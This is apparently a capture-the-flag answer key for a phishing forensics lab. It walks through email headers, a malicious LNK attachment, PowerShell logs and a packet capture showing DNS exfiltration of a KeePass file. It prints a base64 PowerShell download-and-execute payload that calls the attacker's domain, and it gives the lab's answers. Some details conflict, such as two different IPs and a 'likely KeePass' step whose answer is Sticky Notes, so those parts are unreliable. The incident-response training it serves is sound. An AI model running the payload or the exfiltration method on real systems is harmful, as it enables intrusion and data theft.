 ![image](https://github.com/user-attachments/assets/2090bc04-161d-4c88-9c0e-5dd040215a7b)

# Phishing Investigation Answers with Steps

## Task 2 Questions

### 1. What is the email address used to send the phishing email?
- **Answer**: agriffin@bpakcaging.xyz
- **Steps**:
  - Open the email using Thunderbird.
  - Click "More" and select "View Source".
  - Inspect the email header to find the sender's email address.

### 2. What is the email address of the victim?
- **Answer**: julianne.westcott@hotmail.com
- **Steps**:
  - In the email source viewed earlier, locate the "To:" field to find the recipient's email.

### 3. What is the name of the third-party mail relay service used by the attacker?
- **Answer**: elasticemail
- **Steps**:
  - In the email source, look for the "DKIM-Signature" and "List-Unsubscribe" headers.
  - Identify the domain related to the third-party service.

### 4. What is the name of the file inside the encrypted attachment?
- **Answer**: Invoice_20230103.lnk
- **Steps**:
  - Download and unzip the Invoice.zip attachment.
  - View the contents to find the file name.

### 5. What is the password of the encrypted attachment?
- **Answer**: Invoice2023!
- **Steps**:
  - Read the body of the phishing email to locate the password for the encrypted file.

### 6. Based on lnkparse tool, what is the encoded payload?
- **Answer**: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
- **Steps**:
  - Run: `lnkparse Invoice_20230103.lnk`
  - Locate the "Command Line Arguments" field and extract the payload.

---

## Task 3 Questions

### 1. What are the domains used by the attacker?
- **Answer**: cdn.bpakcaging.xyz,files.bpakcaging.xyz
- **Steps**:
  - Locate and open `powershell.json`.
  - Run: `cat powershell.json | jq`
  - Then run: `cat powershell.json | jq '{ScriptBlockText}'`
  - Scroll through ScriptBlockText entries to find domains.

### 2. What is the name of the enumeration tool downloaded by the attacker?
- **Answer**: seatbelt
- **Steps**:
  - Review ScriptBlockText fields for any tool downloads.

### 3. What is the file accessed by sq3.exe?
- **Answer**: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
- **Steps**:
  - Run: `cat powershell.json | jq '{ScriptBlockText}' | grep sq3.exe`
  - Locate the accessed file path.

### 4. What is the software that uses the file in Q3?
- **Answer**: Microsoft Sticky Notes
- **Steps**:
  - From the `sq3.exe` context, identify the software (likely KeePass).

### 5. What is the name of the exfiltrated file?
- **Answer**: protected_data.kdbx
- **Steps**:
  - Review the ScriptBlockText entries for a file sent to 161.71.211.113.

### 6. What type of file uses the .kdbx extension?
- **Answer**: keepass
- **Steps**:
  - Google: `.kdbx file extension`.

### 7. What is the encoding used during exfiltration?
- **Answer**: hex
- **Steps**:
  - Check the exfiltration script in ScriptBlockText; notice hex encoding.

### 8. What is the tool used for exfiltration?
- **Answer**: nslookup
- **Steps**:
  - Review the exfiltration tool used in ScriptBlockText (likely nslookup).

---

## Task 4 Questions

### 1. What software was used by the attacker to host the payload server?
- **Answer**: python
- **Steps**:
  - Open capture.pcapng in Wireshark.
  - Apply filter: `http && ip.addr == 167.71.211.113`.
  - Follow HTTP Stream and analyze the server header.

### 2. What HTTP method was used by the C2?
- **Answer**: POST
- **Steps**:
  - In Wireshark, filter: `http.request.method == POST`.

### 3. What is the protocol used during exfiltration?
- **Answer**: DNS
- **Steps**:
  - Confirm from the powershell.json file and Wireshark that DNS was used.

### 4. What is the password of the exfiltrated file?
- **Answer**: %p9^3!lL^Mz47E2GaT^y
- **Steps**:
  - Filter POST packets.
  - Go to frame 44467.
  - Follow HTTP stream.
  - Copy decimal content, paste into CyberChef.
  - Use "From Decimal" to retrieve password.

### 5. What is the credit card number stored inside the exfiltrated file?
- **Answer**: 4024007128269551
- **Steps**:
  - Open Wireshark, apply filter: `dns && ip.dst == 167.71.211.113`.
  - Extract random strings from DNS queries.
  - Use tshark commands:
    - `tshark -r capture.pcapng -n -T fields -e dns.qry.name | grep "bpakcaging.xyz" | cut -f 1 -d "." | uniq -c`
    - Save and clean output.
  - Combine all strings.
  - Decode with CyberChef "From Hex".
  - Save as .kdbx file.
  - Open the file with KeePass using the password retrieved.
  - Find stored credit card number.

---


